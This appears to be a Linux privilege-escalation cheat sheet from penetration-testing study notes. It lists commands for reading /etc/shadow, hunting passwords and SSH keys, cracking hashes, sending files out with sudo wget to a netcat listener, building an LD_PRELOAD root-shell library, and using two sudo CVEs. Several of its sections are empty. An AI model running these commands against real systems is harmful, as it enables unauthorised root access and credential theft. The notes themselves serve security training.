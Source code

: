 ## Initial Enumeration
**System Enumeration**
- Enumerate the hostname: `hostname`
- Enumerate the kername info
	- `uname -a`
	- `cat /proc/version`
	- `cat /etc/issues` 
- Enumerate the architecture
	- `lscpu`
	- Sometimes the exploit requires multiple threads or multiple cores, so if the exploit requires four cores and the machines has only one, such exploit does not work.
- Enumerate the services
	- `ps aux`
	- What user is running what task or command.
	- Grep the task ran by root user only: `ps aux | grep root`


**User Enumeration**
- Who we are? What permission we have? and what we are capable of?
- Enumerate the id: `id`
- Enumerate the sudo command which a user can run: `sudo -l`
- Enumerate the users: `cat /etc/passwd`
- Check if we can access shadow file: `cat /etc/shadow`
- Check for the history: `history`


**Network Enumeration**
- Identify the open ports: `netstat -ano`
- Analyze the ports open in a localhost.

**Password Hunting**
- Search for the keyword password
	- `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null`
- Find the filename which contains keyword password
	- `locate password | more`
	- `locate passwd | more`
	- `locate pass | more`

- Enumerate for SSH keys
	- `find / -name id_rsa 2> /dev/null`

## Exploring Automated Tools
- Resources
	- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
	- https://github.com/rebootuser/LinEnum
	- https://github.com/mzet-/linux-exploit-suggester
	- https://github.com/sleventyeleven/linuxprivchecker

## Kernel Exploits
- Resources
	- https://github.com/lucyoa/kernel-exploits
- Enumerate the kernal version
	- `uname -a`
- Search for the exploit on internet.

## Escalation Path: Passwords and File Permissions
**Stored Password**
- Get information from history 
	- `history`
- Get information from bash history
	- `cat .bash_history`
- Search for the keyword password
	- `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null`

**Escalation via Weak File Permissions**
- View the read permission on /etc/shadow and /etc/passwd.
- If a user have read permission on both of the file.
- Copy the data from both file and save separately.
- User `unshadow` command from Linux
	- unshadow passwd-file shadow-file
	- Copy the user which have data and save on a file.
- Use Hashcat to decrypt the passwords.
	- `hashcat -m 1800 unshadow.txt rockyou.txt`

**Escalation via SSH Keys**
- Enumerate id rsa (Private Key).
	- `find / -name id_rsa 2> /dev/null`
	- `chmod 600 id_rsa`
	- `ssh -i id_rsa username@IP`

- Enumerate authorized keys (Public key)
	- If the authorized_keys file is writable to the current user, this can be exploited by additing additional authorized keys.
	- `find / -name authorized_keys 2> /dev/null`
	- View the permission of the file.
	- Generate the SSH key
		- `ssh-keygen`
		- It will generate the Key and store on a file.
	- The pulic key can then be copied with the ssh-copy commannd line tool.
		- `ssh-copy-id username@IP`
	- Copy the public key to the authorized_hosts.
	- This allows to login using SSH without having to specify any private keys. (As Linux checks for private keys in the user's home directory by default)
	- `ssh username@IP`

## Escalation Path: Sudo
**Escalation via Sudo Shell Escaping**
- `sudo -l`
- It will list the application or services which can be root as sudo or whether it needs password to run or not.
- Navigate to GTFOBins and search for an application name.
- Click on SUDO and execute commands as per it.

Escalation via Intended Functionality
- With Apache2
	- There is an intented functionality on apache that allows us to view system files.
	- We can get shell and can'tedit system files, but using this, we can view system files.
	- `sudo -l` - If apache2 is listed and does not requires password.
	- `sudo apache2 -f /etc/shadow`
- With Wget
	- set up a netcat listener
		- `nc -lvnp 8001`
	- Send wget commands as such:
		- `sudo wget -post-file=<filename> <ip><port>`

**Escalation via LD_PRELOAD**
- `sudo -l`
	- We can see the environment variable LD_PRELOAD
	- It is a feature of dynamic linker (LD) which is used for preloading the library.
- We are gonna be able to execute our own library and preload that before we run anything.
- We need to make malicious library in order to do it.
- `vim shell.c`
- c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void_init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}` 
- Compile: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
- `sudo LD_PRELOAD=/full/path/shell.so <appname>`
	- Where appname is an ouput of app list from `sudo -l`

**Escalation via CVE-2019-14287**
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id.
- If we found `username ALL=(ALL:!root) /bin/bash`
- We can escalate the privilege with following:
	- `sudo -u#-1 /bin/bash`
- References: https://www.exploit-db.com/exploits/47502

**Escalation via CVE-2019-18634**
- In Sudo before 1.8.26, if pwfeedback is enabled in /etc/sudoers, users can trigger a stack-based buffer overflow in the privileged sudo process.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.
- Download the payload from: https://github.com/saleemrashid/sudo-cve-2019-18634
- `./exploit`
- References: https://www.sudo.ws/security/advisories/pwfeedback/

## Escalation Path: SUID
- Find the files owned by root which have SUID.
- `find / -perm -u=s -type f 2>/dev/null`
- `ls -la <path/filename>`
- Navigate to GTFOBin and search for the filename/command.
- Select SUID and exploit as per it.

## Escalation Path: Other SUID Escalation
**Escalation via Shared Object Injection**
- During execution, a program needs to load some shared objects. In this process some system calls are made. We can view the list of these system calls using a program called strace.
- strace: Traces system calls and signals.
- Find  the files with suid bit set
  - `find / -type f -perm -04000 -ls 2>/dev/null`
  - Or, `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Search for escalation techniques on GTFOBin

**Escalation via Binary Symlinks**
**Escalation via Environmen Variables**

## Escalation Path: Capabilities

## Escalation Path: Scheduled Tasks

## Escalation Path: NFS Root Squashing

## Escalation Path: Docker
